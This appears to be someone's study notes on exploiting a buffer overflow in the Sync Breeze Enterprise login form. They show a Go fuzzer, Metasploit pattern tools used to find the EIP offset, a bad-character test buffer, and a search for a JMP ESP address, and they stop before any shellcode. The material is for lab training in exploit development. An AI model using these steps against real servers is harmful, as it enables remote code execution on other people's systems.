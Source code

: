 # Buffer Overflow Notes

## Introduction
Fuzzing is a reverse engineering technique used to find places in the code where unhandled input can be provided, leading to an application crash or other behavior which can be further exploited.

## HTTP Fuzzing - SyncBreeze

We open the Sync Breeze Enterprise server on our test machine and navigate to the Sync Breeze web portal:

![sync breeze portal](img/screen1.png)

We attempt to login using invalid credentials and capture the response in wireshark. We analyze the TCP stream and find our login request:

![login](img/screen2.png)
![req](img/screen3.png)

## First Fuzzer POC

The following Go program fuzzes the username parameter of the page by sending an increasingly large payload every iteration until it reaches 2000 bytes of lenght.

```
// SyncBreeze 'username' POST parameter fuzzer
// By disastrpc @ github.com/disastrpc

package fuzz

import (
	"fmt"
	"net/http"
	"net/url"
	"os"
	"strings"
	"time"
)

const target string = "http://192.168.138.10/login"

func er(err error) {
	if err != nil {
		panic(err)
	}
}

func main() {

	client := http.Client{
		Timeout: 5 * time.Second,
	}

	for S := 100; S < 2000; S += 100 {
		buf := strings.Repeat("A", S)
		fmt.Printf("Injecting buffer of %d bytes\n", S)
		form := url.Values{}
		form.Add("username", buf)
		form.Add("password", "test")

		req, err := http.NewRequest("POST", target, strings.NewReader(form.Encode()))
		er(err)
		req.PostForm = form
		req.Header.Add("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8")
		req.Header.Add("content-Type", "application/x-www-form-urlencoded")
		req.Header.Add("Content-Length", string(len(buf)))
		resp, err := client.Do(req)

		if err != nil {
			fmt.Printf("Crash with buffer of %d bytes\n", len(buf))
			os.Exit(0)
		}
		defer req.Body.Close()

		fmt.Println(resp.Status)
		time.Sleep(time.Second * 1)
	}

}
```

Running the script crashes the application at around 800 bytes.

We can see that the EIP register was overwritten by our A characters:

![eip](img/eip41.png)

## Ways to Control Registers

We know our payload overwrites the EIP register, however, we still don't know the exact location in our buffer where this overwrite occurs. 

One of the method we can use is binary tree analysis, where we recursively split the payload into different letters. We can then pinpoint the exact location depending on what letter overwrites the address.

Another (faster) method is to use a non-repeating sequence of bytes, with enough lenght to crash the application. 

## msf-pattern-create

Using this script developed by Metasploit, we can generate a pattern of a specified length:

```
disastrpc sync_breeze λ msf-pattern_create -l 800
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
...
...
Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba
```

We can use that pattern as the buffer to our poc program:

```
buf := "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa...a0Ba1Ba2Ba3Ba4Ba5Ba"

form := url.Values{}
form.Add("username", buf)
form.Add("password", "test")`
```

After the program is executed the following string overwrites the EIP address:

![eip_over](img/eip_over.png)

The EIP register gets overwritten by the string "B0aB".

## msf-pattern_offset

The script *msf-pattern_offset* finds an offset in bytes where the query supplied can be found on the generated buffer. 
```
disastrpc poc λ msf-pattern_offset -q 42306142 -l 800                        
[*] Exact match at offset 780  
```

In this case the script found the bytes at EIP to be located at offset 780 in our buffer.

## Introducing Shellcode

Now that we control the EIP memory register, we can introduce shellcode which will perform whatever function we decide. Shellcode is a set of assembly instructions which normally execute reverse shells or other functions through our overflow.

In our particular case, the remaining buffer of C's is a good place to write the shellcode to, since we can easily access it after our EIP offset. But due to the size of this buffer being too small to hold any meaningful code, we are able to expand our available space by sending a larger payload, if the conditions of the crash don't change then we have successfully expanded our available memory.

## Bad Characters

Some applications and protocols contain restricted characters which hold special meaning, these characters will often cause issues and can't be included in our shellcode.

In order to find these characters we can send all possible hex characters. The following Python oneliner will generate all possible ASCII characters in Hex. 

```
>>> for i in range(0,256): print('\\x%02X' % i, end='') 
\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0A\x0B\x0C\x0D\x0E\x0F\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1A\x1B\x1C\x1D\x1E\x1F\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2A\x2B\x2C\x2D\x2E\x2F\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3A\x3B\x3C\x3D\x3E\x3F\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4A\x4B\x4C\x4D\x4E\x4F\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5A\x5B\x5C\x5D\x5E\x5F\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6A\x6B\x6C\x6D\x6E\x6F\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7A\x7B\x7C\x7D\x7E\x7F\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8A\x8B\x8C\x8D\x8E\x8F\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9A\x9B\x9C\x9D\x9E\x9F\xA0\xA1\xA2\xA3\xA4\xA5\xA6\xA7\xA8\xA9\xAA\xAB\xAC\xAD\xAE\xAF\xB0\xB1\xB2\xB3\xB4\xB5\xB6\xB7\xB8\xB9\xBA\xBB\xBC\xBD\xBE\xBF\xC0\xC1\xC2\xC3\xC4\xC5\xC6\xC7\xC8\xC9\xCA\xCB\xCC\xCD\xCE\xCF\xD0\xD1\xD2\xD3\xD4\xD5\xD6\xD7\xD8\xD9\xDA\xDB\xDC\xDD\xDE\xDF\xE0\xE1\xE2\xE3\xE4\xE5\xE6\xE7\xE8\xE9\xEA\xEB\xEC\xED\xEE\xEF\xF0\xF1\xF2\xF3\xF4\xF5\xF6\xF7\xF8\xF9\xFA\xFB\xFC\xFD\xFE\xFF
>>> 
```

Meaning our POC would look like this:

```
	var buf string

	buf += strings.Repeat("A", 780)
	buf += "lleh"
	buf += strings.Repeat("C", 4)

	buf += "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0A\x0B\x0C\x0D\x0E\x0F\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1A\x1B\x1C\x1D\x1E\x1F\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2A\x2B\x2C\x2D\x2E\x2F\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3A\x3B\x3C\x3D\x3E\x3F\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4A\x4B\x4C\x4D\x4E\x4F\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5A\x5B\x5C\x5D\x5E\x5F\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6A\x6B\x6C\x6D\x6E\x6F\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7A\x7B\x7C\x7D\x7E\x7F\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8A\x8B\x8C\x8D\x8E\x8F\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9A\x9B\x9C\x9D\x9E\x9F\xA0\xA1\xA2\xA3\xA4\xA5\xA6\xA7\xA8\xA9\xAA\xAB\xAC\xAD\xAE\xAF\xB0\xB1\xB2\xB3\xB4\xB5\xB6\xB7\xB8\xB9\xBA\xBB\xBC\xBD\xBE\xBF\xC0\xC1\xC2\xC3\xC4\xC5\xC6\xC7\xC8\xC9\xCA\xCB\xCC\xCD\xCE\xCF\xD0\xD1\xD2\xD3\xD4\xD5\xD6\xD7\xD8\xD9\xDA\xDB\xDC\xDD\xDE\xDF\xE0\xE1\xE2\xE3\xE4\xE5\xE6\xE7\xE8\xE9\xEA\xEB\xEC\xED\xEE\xEF\xF0\xF1\xF2\xF3\xF4\xF5\xF6\xF7\xF8\xF9\xFA\xFB\xFC\xFD\xFE\xFF"

	form := url.Values{}
	form.Add("username", buf)
	form.Add("password", "test")
```


## JMP ESP

One reliable way of pointing the ESP register to our code is by leveraging a JMP ESP instruction already present in the code. But it must fulfill some criteria first:

- Must be static (No ASLR)
- Must not contain bad characters

## Mona.py

The Immunity script Mona.py will allow us to search the address space for a specific instruction, which in this case is JMP ESP.

Start the script by writing *!mona modules*, which will display all loaded modules for the attached program. We can see that the *syncbreeze.exe* has been compiled without any protection measures:

![mods](img/sync_mod.png)

## Writing Instructions w/ NASM_Shell

We can use another tool by the Metasploit team called nasm_shell in order to generate assembly instructions in hexadecimal format.

```
disastrpc sync_breeze λ msf-nasm_shell 
nasm > jmp esp
00000000  FFE4              jmp esp
```




